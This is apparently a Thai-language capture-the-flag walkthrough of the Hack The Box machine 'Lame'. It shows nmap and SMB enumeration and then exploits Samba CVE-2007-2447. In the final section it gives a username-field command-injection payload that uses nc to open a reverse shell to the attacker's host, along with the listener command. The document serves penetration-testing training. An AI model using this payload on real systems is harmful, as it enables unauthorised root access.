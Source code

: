 # [](#header-1)Info card
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHvl49IgHnk-WKCt0u6%2F-MHvlnxDfRBJsqRVouf_%2Fimage.png?alt=media&token=992ad801-c46c-4ffb-9e02-1a2cab97283a)

# [](#header-1)Enumeration
```
nmap -sC -sV -Pn -oA  nmap/Lame_fullscan 10.10.10.3
```

## [](#header-2)Nmap scan result
```
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Por lists:
*   <b>Port 21</b> : เป็น FTP protocol โดยจากในผลการแสกน Nmap เราจะเห็นได้ว่าเป็น version  vsftpd 2.3.4 โดยเราจะเห็นว่ามันสามารถเข้าสู่ระบบแบบ anonymous ได้
*   <b>Port 22</b> : เป็น secure shell โดยมี version เป็น OpenSSH 4.7p1
*   <b>Port 139</b> กับ 445 : เป็น SMB Protocol เอาไว้สำหรับแชร์ไฟล์ต่างๆโดย

## [](#header-2)UDP Enumeration scan
```
nmap -sU -O -p- -oA nmap/udp 10.10.10.3
```

Nmap UDP scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 65531 open|filtered ports
PORT     STATE  SERVICE
22/udp   closed ssh
139/udp  closed netbios-ssn
445/udp  closed microsoft-ds
3632/udp closed distcc
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
```

## [](#header-2)FTP (Port 21) Enumeration
```
ls /usr/share/nmap/scripts/ftp*
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHubWdy9-hoopvsWogz%2Fimage.png?alt=media&token=adf076b2-212c-4d2c-b9a8-b1e7504f11ec)

หลังจากนั้นลองรันคำสั่งไปที่ Port 21 ดูเพื่อเช็คว่ามันมีช่องโหว่หรือไม่

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHuc6Zl1Cxxj5SXtv9K%2Fimage.png?alt=media&token=6331cc41-6f29-49ef-bd3c-8bf7727b4da0)

จากผลของ Nmap สรุปคือไม่มี ช่องโหว่ทำไรต่อไม่ได้แล้วงั้นเราจะไปดูกันที่ Protocol อื่นกันต่อ

## [](#header-2)SSH (Port 22) Enumeration
```
ls /usr/share/nmap/scripts/ssh*
```

## [](#header-2)SMB (Port 139, 445) Enumeration

เราจะใช้ SMB client ในการเข้าถึง SMB Server โดยเราจะใช้คำสั่งด้านล่างดังต่อไปนี้
```
smbclient -L 10.10.10.3
```

* <b>-L</b> : แสดงบริการที่มีอยู่บนเซิฟเวอร์ 

แต่หลังจากที่ลองรันไปก็พข้อความ Error 
```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

วิธีแก้คือไปแก้ไข config ใน <b>smb.conf</b>
```
sudo gedit /etc/samba/smb.conf
```

หลังจากนั้นให้เราเพิ่ม  client max protocol = NT1  กับ client min protocol = NT1 เข้าไปในส่วน [global]

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuw_VCFpGa87iXaJ6c%2Fimage.png?alt=media&token=ffaba264-f49a-4467-874f-95edd4951625)

หรืออาจจะใช้คำสั่งนี้แทนก็ได้ 

```
smbclient -L //10.10.10.3/ --option='client min protocol=NT1'
```
จากนั้นผลลัพธ์ที่ได้จะออกมาลักษณะนี้
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuxEorqxMaV-NDsEIg%2Fimage.png?alt=media&token=5c34c0a6-ff4e-485e-96be-90f620822eab)

เราสามารถตรวจสอบ permission ของเราได้โดยใช้คำสั่งนี้ 
```
smbmap -H 10.10.10.3
```

ผลลัพธ์ที่ได้
```
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

จะเห็นว่าในโฟลเดอร์ tmp เรามีสิทธิ์ที่จะ READ กับ WRITE ได้

## [](#header-2)distcc v1 (Port 3632) Enumeration
```
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

Nmap scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.029s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```

# [](#header-1)Exploitation

## [](#header-2)Method 1 SMB using username field vuln

โดยหลังจากลองค้นหาข้อมูลดูก็พบว่ามันมีช่องโหว่จาก [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/) ซึ่งแน่นอนว่ามันมี Metasploit module อยู่แต่ถ้าเป็นการสอบ OSCP เราจะสามารถใช้ Metasploit ได้แค่ครั้งเดียวในการสอบเท่านั้นเพราะอย่างนั้นจึงควรหลีกเลี่ยงการใช้ให้มากที่สุดเท่าที่จะทำได้

ในส่วนของ PoC ของช่องโหว่นี้หากเราลองดูจาก source code
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvBNRsWgIb0dqmGkfY%2Fimage.png?alt=media&token=8202355a-ddd9-47ca-8da9-10ac1b1f58ea)

จะเห็นว่าช่องโหว่นี้เกิดจาก username มีการรับ metacharacter ซึ่งในการที่รับ input เข้ามานั้นหมายความว่าเราสามารถป้อนอินพุตอะไรก็ได้ (arbitary commands) โดยมันจะทำการรันคำสั่งอะไรก็ได้ที่ผู้ใช้ป้อนเข้าไปโดยเราจะใช้ประโยชน์จากจุดนี้ในการทำ <b>reverse shell</b>

## [](#header-2)Reverse shell using nc
เราจะทำการเปิด port 4444 ในเครื่องของเราให้มันรอรับการเชื่อมต่อ จากเครื่องเป้าหมายโดยใช้คำสั่งนี้
```
nc -nlvp 4444
```

หลังจากนั้นเราจะใช้ smbclient เพื่อเชื่อมต่อไปที่โฟลเดอร์ <b>tmp</b> เพราะเรามีสิทธิในการ READ,WRITE ได้โดยใช้

### [](#header-3)Login to SMB client
```
smbclient //10.10.10.3/tmp
```

หลังจากที่เราเข้ามาแล้วมาแล้วตรงส่วนของ password เราไม่ต้องกรอกอะไร enter ได้เลยเพราะเนื่องจากเราเข้าใช้งานในฐานะของ <b>anonymous user</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvSnuNYZoEUguZ6Leu%2Fimage.png?alt=media&token=eda01e16-d903-42c0-bcea-c88fc752dfc1)

## [](#header-2)Got Root
หลังจากนั้นเราจะเอา payload ที่ได้จาก PoC ด้านบนมาใช้เพื่อ excute command ให้มัน reverse shell มาที่เครื่องของเราโดยใช้คำสั่ง

```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvT9MKtBevt2RJT3ce%2Fimage.png?alt=media&token=df715f08-5261-4bb6-bd8a-9059b8c786ad)

หลังจากนั้นกลับมาดูที่ nc ที่เราเปิด port เอาไว้เราจะเห็นว่ามีการเชื่อมต่อเข้ามาจากเครื่องของเป้าหมายเรียบร้อยแล้วด้วยสิทธิ์ของ <b>root</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvU1MqwpM2leeAgjOi%2Fimage.png?alt=media&token=51d9d02d-06bb-4ac5-99fa-005c0d878c94)
